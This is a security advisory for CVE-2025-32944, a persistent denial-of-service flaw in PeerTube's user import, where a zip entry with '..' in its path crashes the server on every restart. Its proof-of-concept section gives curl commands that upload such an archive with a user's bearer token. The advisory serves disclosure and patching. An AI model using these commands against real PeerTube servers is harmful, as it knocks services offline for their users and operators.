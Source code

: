 ```yaml
---
description: CVE-2025-32944 Medium severity. PeerTube User Import Authenticated Persistent Denial of Service
title: PeerTube User Import Authenticated Persistent Denial of Service
date_published: "2025-04-14"
last_updated: "2025-04-14"
xray_id:
vul_id: CVE-2025-32944
cvss: 6.5
severity: medium
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary
An Uncaught Exception in PeerTube can lead to a persistent Denial of Service in User Import.

This vulnerability allows any authenticated user to cause the server to stop functioning in a persistent manner.



## Component

[PeerTube](https://github.com/Chocobozzz/PeerTube)



## Affected versions

(, 7.1.1)



## Description

If user import is enabled (which is the default setting), any registered user can upload an archive for importing. The code uses the yauzl library for reading the archive.
If the yauzl library encounters a filename that is considered illegal, [it raises an exception](https://github.com/thejoshwolfe/yauzl/blob/de292f220268473eb20aef64b0a77faa9d004d9a/index.js#L737). For example, if a filename includes “..” in one of its parts, an “invalid relative path” error is raised. PeerTube does not catch this exception, thus it crashes. Even after starting the server again, it tries to read the file and crashes again, causing a permanent denial of service until the file is deleted from the system.

## PoC

This PoC assumes that there is a PeerTube instance on the machine listening on ports 3000 (client) and 9000 (server). Note that running this PoC will cause PeerTube’s server to shut down.
1. First, using a browser, log in to the PeerTube instance with any user’s credentials, and use the inspection screen to copy the authorization token of the user.
1. Create a file `evil.zip` in the current directory, which contains at least one zip entry with a `..` in its path
1. In a terminal, run the following commands (replace “user_token” with the token obtained from step #1):
```
new_location=http:$(curl -s -D - 'http://127.0.0.1:3000/api/v1/users/1/imports/import-resumable' -H 'Authorization: Bearer user_token' -H 'Content-Type: application/json; charset=UTF-8' -H 'X-Upload-Content-Length: 168' -H 'X-Upload-Content-Type: application/x-zip-compressed' --data-raw '{"name":"evil.zip","mimeType":"application/x-zip-compressed","size":168,"lastModified":1743493990068,"filename":"evil.zip"}' | awk '/^location:/{print $2}' | tr -d '\r')
curl -X PUT "$new_location" -H "Content-Type: application/octet-stream" -H "Content-Range: bytes 0-167/168" -H 'Authorization: user_token' --data-binary @evil.zip
```
If everything was done correctly, the PeerTube server will crash, and will keep crashing as long as the ZIP file is not deleted from the system.



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[Fix release](https://github.com/Chocobozzz/PeerTube/releases/tag/v7.1.1)
